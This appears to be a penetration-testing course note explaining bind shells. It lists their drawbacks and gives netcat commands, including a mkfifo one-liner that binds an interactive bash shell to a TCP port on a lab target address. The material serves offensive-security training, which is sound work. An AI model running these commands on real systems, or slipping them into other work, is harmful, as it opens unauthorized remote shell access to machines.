

---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---

# Bind Shells

Target/victim is listening and waits for ATTACKER to connect

<div data-full-width="true">

<figure><figcaption></figcaption></figure>

</div>

DISADVANTAGES

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

No. 1: Server - Target starting Netcat listener

```
nc -lvnp 7777
```

No. 2: Client - Attack box connecting to target

```
nc -nv 10.129.41.200 7777
```

### Establishing a Basic Bind Shell with Netcat

No. 1: Server - Binding a Bash shell to the TCP session


```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```


No. 2: Client - Connecting to bind shell on target

```
nc -nv 10.129.41.200 7777
```
